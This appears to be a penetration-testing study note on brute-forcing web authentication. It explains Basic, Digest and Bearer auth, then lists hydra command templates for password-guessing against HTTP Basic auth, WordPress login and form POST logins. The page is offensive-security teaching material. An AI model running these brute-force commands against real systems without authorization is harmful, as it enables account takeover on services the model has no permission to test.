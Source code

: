 # Brute Force (Web)

## Theory

### Authentication types

**Basic Authentication** (`Authorization: Basic YWRtaW46YWRtaW4=`): The format is in base64 and when decoded you see:

![](../../.gitbook/assets/get\_auth\_decoded.png)

Other authorization types are **Digest** and **Bearer**. The Digest type is used to hash credentials using the MD5 hash algorithm. This avoids transmitting credentials in clear text, unlike Basic. More detailed information on the process can be found here.

The **Bearer** type, on the other hand, is used to send "tokens", which identify the client. These tokens can be defined and created by applications as they wish. They are usually associated with the OAuth authorization framework. They are used for JWTs (Json Web Tokens):

INSERT LINK TO: JWT

## Practice

```bash
# Basic authorization
hydra -t <THREADS> -l <USERNAME> -P <WORDLIST> <IP/DOMAIN> http-get "/"
hydra -t <HILOS> -l <USERNAME> -P <WORDLIST> <IP/DOMAIN> http-head "/"
# WordPress
hydra <IP/DOMAIN> -l <USERNAME> -P <WORDLIST> -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
# HTTP POST
hydra <IP/DOMAIN> -L users.txt -P passwords.txt http-form-post "/owaspbricks/login-3/index.php:username=^USER^&passwd=^PASS^&submit=submit:<ERROR MESSAGE>"
```

{% embed url="https://github.com/frizb/Hydra-Cheatsheet" %}
